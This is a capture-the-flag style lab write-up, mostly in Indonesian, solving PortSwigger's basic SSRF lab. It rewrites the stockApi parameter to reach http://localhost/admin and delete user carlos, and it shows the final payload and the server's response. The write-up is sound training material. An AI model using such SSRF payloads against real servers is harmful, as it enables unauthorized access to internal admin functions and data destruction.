




# Basic SSRF against the local server

> **Lab Description:** This lab has a stock check feature which fetches data from an internal system. To solve the lab, change the stock check URL to access the admin interface at http://localhost/admin and delete the user carlos.

## Lab Overview

| Property             | Detail                                                                                                         |
| :------------------- | :------------------------------------------------------------------------------------------------------------- |
| **Category**         | Server Side Request Forgery (SSRF)                                                                             |
| **Difficulty Level** | Apprentice                                                                                                     |
| **Lab URL**          | [PortSwigger Lab Link](https://portswigger.net/web-security/learning-paths/ssrf-attacks/ssrf-attacks-common-ssrf-attacks/ssrf/lab-basic-ssrf-against-localhost) |
| **Status**           | Solved                                                                                                    |
| **Date Completed**   |    2026-11-20                                                                                                            |

## Analysis

Diberikan web sebagai berikut:



Objektif lab ini kita diminta untuk melakukan serangan `SSRF` pada fitur cek stok produk yang fungsinya mengambil data internal dari sistem, lalu mengarahkannya ke `http://localhost/admin` dan menghapus user `carlos` tanpa harus memiliki privilage `admin` atau `authentication`. Disini saya akan mengambil sample product pertama dari display products.

**Pertama**, tangkap request `view details`, request ini diproses oleh API `/product?productId=1` dengan method GET



**Kedua**, tangkap request `check stock`, request ini diproses oleh API `/product/stock` dengan method POST. Pada request ini server juga menyertakan external endpoint untuk mengakses `stock API`, seperti berikut 
```text
# URL encoded
stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1

# URL decoded
stockApi=http://stock.weliketoshop.net:8080/product/stock/check?productId=1&storeId=1
```

Lalu saya tes `SSRF` dengan mengganti parameter pada `stockApi` dengan `http://localhost/admin`, lalu send request ke browser dan server meresponse dengan halaman admin.



## Exploitation

Hapus user carlos dengan menggunakan teknik `SSRF` agar tidak terdeteksi unauthenticated, dari HTML response pada halaman admin, endpoint yang digunakan untuk menghapus user carlos adalah `/admin/delete?username=carlos`

```HTML
div>
    <span>carlos - </span>
    <a href="/admin/delete?username=carlos">Delete</a>
</div>
```

Untuk melakukan serangan, ubah parameter pada `stockApi` dengan `http://localhost/admin/delete?username=carlos`, lalu send ke browser dan responsenya

```text
HTTP/2 302 Found
Location: /admin
Set-Cookie: session=Sq2RnUxS4yeINXsMjFc4j7STeIQyF1aO; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

Walaupun terdeteksi not logged, tapi request untuk menghapus akun tetap diproses oleh server




### Final Payload

```text
stockApi=http://localhost/admin/delete?username=carlos
```

## New Knowledge
- Mempelajari cara kerja `SSRF`

## References

- [SSRF WSTG](https://wstg.owasp.org/latest/4-Web_Application_Security_Testing/07-Injection/19-Server-Side_Request_Forgery/)